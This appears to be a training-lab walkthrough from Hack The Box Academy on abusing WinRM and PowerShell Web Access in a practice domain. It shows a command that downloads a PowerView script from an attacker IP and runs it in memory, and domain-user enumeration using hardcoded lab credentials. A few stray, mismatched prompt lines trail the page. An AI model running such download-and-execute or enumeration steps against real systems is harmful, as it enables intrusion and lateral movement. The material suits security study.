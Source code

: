 <p>Valid credentials are required to authenticate with PowerShell remoting. These credentials must have appropriate permissions on the target system to initiate and execute remote PowerShell commands. Depending on the configuration, this could involve standard user accounts or accounts with elevated privileges, such as those belonging to the <code>Remote Management Users</code> group or local <code>Administrators</code>.</p>
<p>To connect to PowerShell Web Access using Frewdy's credentials, let's connect to https://10.129.229.244/pswa:</p>
<p><img alt="text" src="https://academy.hackthebox.com/storage/modules/263/pswa-login.png"/></p>
<p>When working with PowerShell Web Access and needing to retrieve large amounts of information, we should consider using <code>Base64</code> output to optimize the process. PowerShell Web Access connects to the target machine to retrieve each line, meaning it may take much time to retrieve a large file if we are on a slow network.</p>
<p>For example, if we try to get the contents of <code>C:\Windows\System32\drivers\etc\hosts</code> using <code>cat</code>, it will take some time to load due to the line-by-line transfer. Instead, we can use the following command to convert the file contents to Base64:</p>
<pre><code class="language-powershell-session">PS C:\Tools&gt; [Convert]::ToBase64String([System.IO.File]::ReadAllBytes("C:\Windows\System32\drivers\etc\hosts"))
</code></pre>
<p><img alt="text" src="https://academy.hackthebox.com/storage/modules/263/pswa-base64.png"/></p>
<p>This will load faster. We can then copy that content to a file, replace the break lines, and use <code>cat hosts_base64.txt | base64 -d &gt; hosts</code> in a Linux terminal to decode the content quickly.</p>
<p>In case we want to use <code>PowerView</code> through <code>PowerShell Web Access</code> we may get the following error:</p>
<pre><code class="language-powershell-session">PS C:\Tools&gt; IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.87/PowerView.ps1')
PS C:\Tools&gt; Get-DomainUser
Exception calling "FindAll" with "0" argument(s): "An operations error occurred.
"
At line:5253 char:20
+             else { $Results = $UserSearcher.FindAll() }
+                    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
 + CategoryInfo          : NotSpecified: (:) [], MethodInvocationException
 + FullyQualifiedErrorId : DirectoryServicesCOMException
</code></pre>
<p>To prevent this from happening, we must specify our credentials as follows:</p>
<pre><code class="language-powershell-session">PS C:\Tools&gt; $username = "INLANEFREIGHT\Helen"
PS C:\Tools&gt; $password = "RedRiot88"
PS C:\Tools&gt; $securePassword = ConvertTo-SecureString $password -AsPlainText -Force
PS C:\Tools&gt; $credential = New-Object System.Management.Automation.PSCredential ($username, $securePassword)
PS C:\Tools&gt; Get-DomainUser -Credential $credential -FindOne

logoncount                    : 1100
badpasswordtime               : 6/27/2024 6:32:03 AM
description                   : Built-in account for administering the computer/domain
distinguishedname             : CN=Administrator,CN=Users,DC=inlanefreight,DC=local
objectclass                   : {top, person, organizationalPerson, user}
lastlogontimestamp            : 6/30/2024 6:21:56 AM
name                          : Administrator
lockout time                   : 0
objectsid                     : S-1-5-21-2760730334-3436498779-657182845-500
samaccountname                : Administrator
logonhours                    : {255, 255, 255, 255...}
...SNIP...
</code></pre>
<h2>Conclusion</h2>
<p>WinRM is a crucial tool for remote management and automation in Windows environments, allowing secure and efficient interaction with remote systems. By understanding and utilizing the necessary rights and enumeration techniques, we can exploit WinRM to execute commands, transfer files, and gain access to additional systems.</p>

[SRV02]: PS C:\Users\helen\Documents&gt;
[SRV02.inlanefreight.local]: PS C:\Users\Leonvqz\Documents&gt; hostname
[srv02.inlanefreight.local]: PS C:\Users\Helen\Documents&gt;